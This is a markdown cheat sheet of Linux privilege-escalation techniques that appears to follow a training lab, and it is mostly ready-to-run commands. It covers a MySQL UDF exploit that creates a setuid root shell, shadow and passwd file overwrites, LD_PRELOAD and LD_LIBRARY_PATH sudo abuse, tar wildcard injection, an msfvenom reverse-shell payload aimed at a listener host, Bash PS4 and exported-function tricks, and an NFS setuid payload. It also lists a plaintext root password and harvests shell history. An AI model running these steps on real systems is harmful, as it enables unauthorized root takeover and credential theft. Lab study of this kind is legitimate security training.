

# linux privEsc


### mysql

- mysql is running as root
- and the root user doesnot have a password

- [exploit](https://www.exploit-db.com/exploits/1518)


```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```


create a new database and load file that we compiled and execute it to give us a setuid bash in temp folder

```mysql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```


### weak file permission


#### readable shadow

we can read contents of shadow folder lets try to crack root users hash




**creds**

root		password123


#### writable shadow

```bash
mkpasswd -m sha-512 newpass
```

replacing new generated password with roots old password and we will escalate to root


#### writable passwd

```bash
openssl passwd newpass
```

- copy the root users details and append it at last
- change x to the password we generated
- and root


## shell escape

we can gtfo bin


## sudo Enivironment Variables


LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.


```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

sudo LD_PRELOAD=/tmp/preload.so any-program-with-sudo-privileges
```


dependies that apache2 depends on


```bash
ldd /usr/sbin/apache2

gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

sudo LD_LIBRARY_PATH=/tmp apache2
```


## cronjobs


#### file permission

two cronjobs are running as root


overwrite.sh


**shell**


#### path environment variable

- first path it will look for is /home/user if absolute path is not given
- lets create ovrwrite.sh in /home/user directory


**shell**


#### tar wildcards

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```


## SUID / SGID executions


#### known exploits

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```


- we can see the details of every with set user or group id
- we can expoit exim-4.84-3


#### shared object


```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```


```bash
mkdir /home/user/.config

gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```


#### Environment Variables


#### abusing shell features 1

In Bash versions **<4.2-048** it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

```bash
function /usr/sbin/service { /bin/bash -p; }

export -f /usr/sbin/service
```


#### abusing shell features 2

Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```


**shell**


## history files


```
cat ~/.*history | less
```


## Password and keys


#### config files


#### ssh keys


## nfs


Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:


mounting the directory

```bash
mkdir /tmp/nfs
sudo mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```


payload bash shell with preserved permission

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

set uid with root user on kali

```
chmod +xs /tmp/nfs/shell.elf
```


```
important every operation performed should run as root in local machine
```


## kernel exploits

kernel exploit suggestor

```
linux-exploit-suggester-2.pl
```


